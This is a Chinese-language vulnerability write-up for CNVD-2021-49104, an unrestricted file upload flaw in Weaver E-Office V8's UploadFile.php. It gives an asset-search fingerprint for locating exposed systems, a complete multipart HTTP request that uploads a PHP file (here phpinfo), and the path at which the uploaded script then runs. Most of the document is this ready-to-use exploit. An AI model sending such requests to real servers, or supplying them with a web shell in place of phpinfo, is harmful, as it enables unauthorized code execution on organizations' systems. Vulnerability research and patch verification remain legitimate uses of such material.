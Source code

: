 # 泛微OA E-Office UploadFile.php 任意文件上传漏洞 CNVD-2021-49104

## 漏洞描述

在/general/index/UploadFile.php中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629192036675-609c0b9d-2484-4e61-bb92-da8c1ce0067c.png)

发送请求包

```bash
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```

![img](../../../.vuepress/public/img/1629192352056-19e32ff8-c25d-4403-8d5a-d2bbcf5786a1.png)

再访问 

```bash
/images/logo/logo-eoffice.php
```

![img](../../../.vuepress/public/img/1629192399188-505a3021-d47b-42cb-a23d-a626c646c97b.png)
